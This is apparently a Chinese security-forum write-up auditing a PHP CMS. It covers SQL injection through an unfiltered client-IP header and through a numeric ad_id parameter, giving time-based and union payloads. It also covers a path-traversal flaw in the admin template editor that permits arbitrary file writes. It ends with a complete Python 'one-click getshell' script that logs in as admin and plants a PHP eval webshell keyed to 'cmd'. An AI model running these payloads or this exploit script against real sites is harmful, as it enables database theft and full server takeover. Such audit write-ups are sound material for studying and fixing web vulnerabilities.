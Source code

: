 源码地址  
<http://down.chinaz.com/soft/26181.htm>  
一、审计工具  
Seay源代码审计系统,phpstrom2020.1.3  
二、审计步骤  
1.利用Seay自动审计功能查到很多问题，包括sql注入,文件包含，文件上传等代码逐一进行分析  
sql注入1  
1.通过审计发现comment.php存在sql语句变量未过滤，跟进代码进行分析查看，发现包含了配置文件，分析配置文件，发现对$GET,$POST,$REQUEST,$COOKIE都进行了过滤，像是'这种闭合就不考虑了,但是对$SERVER并未进行过滤  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-6ec61a56e3cf605eb8a51adad4142f3aa064e980.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-6ec61a56e3cf605eb8a51adad4142f3aa064e980.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f16545fcfcee8780f543c0f01f9a46bd575595ad.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f16545fcfcee8780f543c0f01f9a46bd575595ad.png)  
2.在uploads/comment.php下有插入变量$ip属于server变量且并未进行过滤，由此判断此处为注入点。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2217b0b50de5c6628e667da91f9aafe7fa29dfdf.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2217b0b50de5c6628e667da91f9aafe7fa29dfdf.png)

```php
function getip()
{
   if (getenv('HTTP_CLIENT_IP'))
   {
      $ip = getenv('HTTP_CLIENT_IP'); 
   }
   elseif (getenv('HTTP_X_FORWARDED_FOR')) 
   { //��ȡ�ͻ����ô������������ʱ����ʵip ��ַ
      $ip = getenv('HTTP_X_FORWARDED_FOR');
   }
   elseif (getenv('HTTP_X_FORWARDED')) 
   { 
      $ip = getenv('HTTP_X_FORWARDED');
   }
   elseif (getenv('HTTP_FORWARDED_FOR'))
   {
      $ip = getenv('HTTP_FORWARDED_FOR'); 
   }
   elseif (getenv('HTTP_FORWARDED'))
   {
      $ip = getenv('HTTP_FORWARDED');
   }
   else
   { 
      $ip = $_SERVER['REMOTE_ADDR'];
   }
   return $ip;
}
```

SQL注入2  
1.查看一处可能有sql注入漏洞的地方,uploads/ad\_js.php处，发现虽然也时对$GET进行了‘转义,但是sql语句中并不需要闭合'，很明显，这里的sql语句查询为WHERE ad\_id=1111这种可以直接进行注入攻击。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f345cfac5ab9374bf9a98bca0c1a78b56d0f93d8.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f345cfac5ab9374bf9a98bca0c1a78b56d0f93d8.png)

任意文件读取+getshell  
1.跟进代码uploads/admin/tpl\_manage.php,当传入act=edit编辑模板时，可以直接根据传入参数../ 目录穿越到user.php，ann.php等模板文件里，并进行编辑写入,且无任何过滤限制。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1443a4be0394aee3a3dc7a06737a71484c8d49c3.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1443a4be0394aee3a3dc7a06737a71484c8d49c3.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-9be8bbf813c88cd917cfa4004d244fb7db17cc1a.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-9be8bbf813c88cd917cfa4004d244fb7db17cc1a.png)

三、漏洞复现  
sql注入1  
可以看到sql语句已经显示出来，可以用延时注入进行sql注入,paylaod:1’ and sleep(20) and '1'='1  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c1a69fc01906a4b02b0a034e02b9b1ad2142ca31.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c1a69fc01906a4b02b0a034e02b9b1ad2142ca31.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a0579ce0e2099b5ef8ec5d6c917a5956a4138ba8.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a0579ce0e2099b5ef8ec5d6c917a5956a4138ba8.png)

sql注入2  
使用联合注入可以注入出来,payload:1 union select 1,2,3,4,5,6,(select datab ase())  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-901e016d5f27529062ecbb97df2e702d305bfbba.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-901e016d5f27529062ecbb97df2e702d305bfbba.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-720dab22aefef80b43cb54980def74dc01534d99.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-720dab22aefef80b43cb54980def74dc01534d99.png)

任意文件读取写入+getshell  
需要进到管理员后台，进行模板编辑功能，随意编辑一个模板，进入查看网页源代码，找到tpl\_manage.php地址进行访问,进行目录穿越随意修改一个info.php模板信息，添加payload:&lt;?php phpinfo(); ?&gt;访问uploads/info.php复现成功。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-035b0a890605e22d9c80d4d9844e0b8320fb7d66.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-035b0a890605e22d9c80d4d9844e0b8320fb7d66.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ccb8e5a69f78f4df76c421588ff8eef0698efc67.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ccb8e5a69f78f4df76c421588ff8eef0698efc67.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-7e3f94cd981af1c94f0b1108dd5440b4b33c7447.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-7e3f94cd981af1c94f0b1108dd5440b4b33c7447.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-fe6e59fb99820e26f74a2109a85f5db962c7aecf.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-fe6e59fb99820e26f74a2109a85f5db962c7aecf.png)  
四、利用模板编辑漏洞编写一键Getshell脚本  
1.代码如下

```python
#author: soufaker
#time: 2021/7/23

import requests
import optparse
from lx ml import etree

#参数设置
parser = optparse.OptionParser()
parser.add_option('-u','--url',action='store',dest="url")
parser.add_option('-a','--username',action='store',dest="username")
parser.add_option('-p','--password',action='store',dest="password")
options,args = parser.parse_args()

#参数获取
url = options.url
username = options.username
password = options.password

#登录数据获取
login_data = {"admin_name":username,"admin_pwd":password,"submit":"登录","act":"do_login"}
login_url = url + "/admin/login.php?act=login"
shell_url = url + "/admin/tpl_manage.php?act=edit&tpl_name=../../ad_js.php"

#payload(可自行更改)
shell_payload= "<?php @e val($_POST['cmd']) ?>"

#获取登录cookie
session = requests.Session()
r = session.post(login_url,login_data,allow_redirects=False)
cookie = r.headers["Set-Cookie"]

#设置具有admin会话的headers
headers = {"Cookie":cookie,"Content-Type":'application/x-www-form-urlencoded'}

#获取修改模板原有的内容
r2 = requests.get(shell_url,allow_redirects=False, headers=headers)
html = etree.HTML(r2.content)

#设置修改编辑内容容器的xpth路径
select_xpath = '//textarea/text()'

#获取容器对象
tpl_content = str(html.xpath(select_xpath))

#拼接模板原有内容和payload构成最后要传入模板的内容
last_p=str(tpl_content+shell_payload)

#根据传入参数设置对应值，这里随意找一个网站模板../../ann.php，也可以修改为其他模板
data2 = {"tpl_content":last_p,"tpl_name":"../../ad_js.php","act":"do_edit"}

#设置代理,方便本地抓包查看
proxies = {"http": "http://localhost:8080"}

#提交数据
post = session.post(shell_url, data=data2,allow_redirects=False, headers=headers,proxies=proxies)

#根据返回状态判断是否getshell成功
if post.status_code == 200:
    shell_url2 = url+'/ad_js.php'
    print("成功getshell!,shell地址为:%s,密码为:cmd"%shell_url2)
else:
    print("getshell失败!请检查cms版本是否存在该漏洞!")

```

2.脚本使用复现  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4fb755385b8ff9d3ce79a86a0c88c6d6c11d57a7.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4fb755385b8ff9d3ce79a86a0c88c6d6c11d57a7.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-317c6f9518156d67ad3fa16d2c22b657592d2acc.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-317c6f9518156d67ad3fa16d2c22b657592d2acc.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ff4e8989bce7cd85da5931b24322a935e6505571.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ff4e8989bce7cd85da5931b24322a935e6505571.png)